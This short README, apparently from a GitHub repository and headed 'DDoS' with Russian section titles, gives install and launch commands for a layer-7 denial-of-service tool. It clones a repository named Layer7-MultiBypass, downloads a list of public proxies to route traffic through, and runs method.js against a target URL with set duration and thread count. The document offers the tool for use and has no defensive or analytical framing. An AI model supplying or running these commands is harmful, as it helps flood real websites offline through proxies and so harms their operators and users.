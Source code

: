 # DDoS

## Установка

    apt install npm nodejs git -y
    git clone https://github.com/R00tS3c/Layer7-MultiBypass l7mb
    cd l7mb
    rm -rf proxies.txt
    wget -O proxies.txt https://api.proxyscrape.com/?request=getproxies
    npm install

## Запуск

    cd l7mb
    node method.js [URL] [SECONDS] request [THREADS]
    
### Example:

    node method.js https://example.com 10 request 10
